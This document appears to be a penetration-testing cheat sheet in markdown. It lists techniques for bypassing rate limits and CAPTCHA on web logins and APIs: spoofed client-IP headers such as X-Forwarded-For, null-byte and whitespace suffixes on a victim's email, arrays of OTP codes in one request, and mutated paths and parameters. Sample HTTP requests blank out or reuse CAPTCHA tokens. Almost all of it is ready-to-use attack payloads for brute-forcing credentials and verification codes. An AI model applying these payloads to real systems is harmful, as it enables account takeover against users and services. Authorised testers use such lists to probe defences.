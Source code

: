 #  Rate Limit

## 1 HTTP Methods
    If the request goes on GET try to change it to POST, PUT, etc.,
    If you wanna bypass the rate-limit in API's try HEAD method.
    
    
## 2 Add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1 
X-Custom-IP-Authorization: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

## 3.Using Special Characters
  ```  
    Adding Null Byte ( %0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C) at the end of the Email email=victim@gmail.com%00
    Try adding a Space Character after a Email. ( Not Encoded ) {"email":"victim@gmail.com "}
    Adding a slash(/) at the end of api endpoint can also Bypass Rate Limit. domain.com/v1/login -> domain.com/v1/login/
```


## 4. Using IP Rotate Burp Extension

    Try changing the user-agent, the cookies... anything that could be able to identify you
    If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.
    
    
## 5 Multiple values in request

    When brute-force, try passing several values in one request at once, for instance:
    phone=+17342239011&code[]=123456&code[]=654321&...&code[]=331337
    
## 6 Use different params: 
    sign-up, Sign-up, SignUp
    
## 7 Confuse server with correct attempts
    
    If the server is blocking you after 20 attempts, Try bruteforcing with 19 attempts and use your credentials to login to your account on 20th attempt and then     repeat the process.
    
## 8 - Updating target Paths

appending random param=value may sometimes bypass rate limit on the endpoint

Eg:
- Bruteforce /api/v1/users/<id>
- Got blocked after 200 attempts
- Now Bruteforce /api/v1/users/<id>?xyz=123
- and change the param=value after each 200 attempts
    
------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Captcha
## Changing the request method, 

## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

    
    
    
    
    
    
 

